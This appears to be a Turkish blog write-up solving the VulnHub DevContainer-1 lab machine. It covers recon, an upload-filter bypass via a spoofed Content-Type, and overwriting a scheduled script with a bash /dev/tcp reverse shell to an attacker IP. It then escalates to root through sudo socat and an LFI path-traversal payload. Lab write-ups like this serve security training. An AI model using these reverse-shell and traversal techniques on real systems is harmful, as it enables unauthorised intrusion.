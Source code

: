 ```yaml
---
title: "VULN DevContainer-1 Write Up"
date: 2020-09-21T22:53:05+03:00
draft: false
toc: false
images:
tags: [Vulnhub,write-up,Docker,Container,sudo,lfi,burp suite] 
categories: [write-up]
author : "Barcode"
Description : "Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/devcontainer-1,548/) 'da yer alan medium seviye DevContainer-1 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."
cover : images/vulnhub/devcontainer1/cover.png
  
---
```

"Merhaba, Bu yazımda sizlere [VULNHUB](https://www.vulnhub.com/entry/devcontainer-1,548/) 'da yer alan medium seviye DevContainer-1 adlı makinanın çözümünden bahsedeceğim. Keyifli okumalar..."

## 1. Keşif Aşaması
{{< text >}}
Makina kalıp dosyası siteden indirildikten sonra sanallaştırma yazılımları tarafından import edilir ve çalıştırılır. DHCP servisi tarafından atanan ip adresinin tespit edilmesi için netdiscover aracı ile ağda tarama yapılır.
{{< /text >}}
```bash
netdiscover -i eth1
```

{{< image src="/images/vulnhub/devcontainer1/discover.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Ip adresi tespit edildikten sonra nmap ile makinenin açık portları ve portlarda çalışan servisleri tespit edilir.

{{< image src="/images/vulnhub/devcontainer1/nmap.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

{{< text >}}
<br>
Tarayıcı ile web servisine istek atılır. Açılan sayfa ve kaynak kodları incelendiğinde olağan dışı bir bilgiye görülmemektedir.
<br>
<br>
{{< /text >}}

{{< image src="/images/vulnhub/devcontainer1/webpage.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Gobuster aracı ile Web dizin taraması gerçekleştirilir.
```bash
gobuster dir -u http://192.168.56.104/ -w /usr/share/wordlists/dirb/big.txt 
```

{{< image src="/images/vulnhub/devcontainer1/gobuster.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Upload** dizini dikkat çekmektedir. Tarayıcıdan istek atıldığında upload sayfası karşılamaktadır. İzin verilen dosya uzantıları ekranda yazılmaktadır.

{{< image src="/images/vulnhub/devcontainer1/upload.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Burpsuite uygulaması açılır ve normal bir resim dosyası yüklendiğinde giden istek incelenir.

{{< image src="/images/vulnhub/devcontainer1/normal.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Php uzantılı dosya yüklendiğinde giden isteğin _**Content-type**_ değeri ***image/gif*** şeklinde değiştirilerek deneme yapılır. Yükleme işlemi başarılı bir şekilde gerçekleşmektedir.

{{< image src="/images/vulnhub/devcontainer1/son.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 2. Erişim Sağlanması

İlgili port dinlenmeye alınarak upload ekranında yer alan index yazısına tıklanarak yüklenen dosya çağırılır ve reverse shell alınır.

{{< image src="/images/vulnhub/devcontainer1/shell.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

***/etc/passwd*** dosyası görüntülenerek sistemdeki kullanılar tespit edilir. Login olabilecek kullanıcı gözükmemektedir. Bu durumda bir container içerisinde olduğumuz tespit edilir. 

{{< image src="/images/vulnhub/devcontainer1/etc.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Web uygulamasının çalıştığı ***/var/www/html*** dizine geçilir.

{{< image src="/images/vulnhub/devcontainer1/dizin.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

**Maintenance-Web-Docker** dizini dikkat çekmektedir. Dizine girilerek içerisinde yer alan alan dosyalar incelenir.

{{< image src="/images/vulnhub/devcontainer1/webdocker.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

```terminal
cat maintenance.sh

#!/bin/bash
#Version 1.0
#This script monitors the uploaded files. It is a reverse shell monitoring measure.
#path= /home/richard/web/webapp/upload/files/
/home/richard/web/Maintenance-Web-Docker/list.sh


cat list.sh

#!/bin/bash
date >> /home/richard/web/Maintenance-Web-Docker/out.txt
ls /home/richard/web/upload/files/ | wc -l >> /home/richard/web/Maintenance-Web-Docker/out.txt
```

Dockerda yer alan **www** dizini ile **/home/richard/web/** dizini birbirine volume oluşturularak bağlanmıştır. List.sh dosyası shell alınacak şekilde düzenir ve çalıştırılır.

```bash
echo "bash -i &>/dev/tcp/192.168.56.105/7777 0>&1" > list.sh
```
7777 numaralı port dinlenir ve bağlantı sağlanır.

{{< image src="/images/vulnhub/devcontainer1/rev.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

User.txt dosyası okunarak ilk aşama tamamlanır.

{{< image src="/images/vulnhub/devcontainer1/userflag.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

## 3. Yetki Yükseltme

Sudo -l komutu ile yetkiler kontrol edilir.

{{< image src="/images/vulnhub/devcontainer1/sudo.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Parola gerektirmeden root yetkisi ile socat uygulamasının çalıştırılabildiği görülmektedir. **TCP-LISTEN 8080** ile 8080 portuna gelen bağlantılar dinlenir, **fork** ile gelen bağlantılar 90 portuna yönlendirilir.

```bash
sudo -u root /home/richard/HackTools/socat TCP-LISTEN\:8080\,fork TCP\:127.0.0.1\:90
```
Komut çalıştırıldığında 8080 portu gelen bağlantılar için dinlenmeye başlanır. Tarayıcıdan *http://makianaipsi:8080* istek atıldığında web sayfası açılır.

{{< image src="/images/vulnhub/devcontainer1/web.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

Sayfada yer alan linklere tıklandığında lfi açığı olabileceği tespit edilir.

{{< image src="/images/vulnhub/devcontainer1/lfi.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

***view=../../../../../../etc/passwd*** parametre girilerek lfi açığı varlığı tespit edilir. Görüldüğü gibi include işlemi başarılı gerçekleşmiş ve passwd dosyası okunmuştur. 

{{< image src="/images/vulnhub/devcontainer1/passwd.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

İlk etapta upload ettiğimiz shell dosyası **../upload/files** klasörü altındadır. O dosya tekrar çağırılarak bağlantı alınır.

{{< image src="/images/vulnhub/devcontainer1/shell2.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}

/root dizinine geçilir ve dizin listenir ve çözüm tamamlanır.

{{< image src="/images/vulnhub/devcontainer1/root.png" alt="Hay aksi" position="center" style="border-radius: 10px;" >}}







































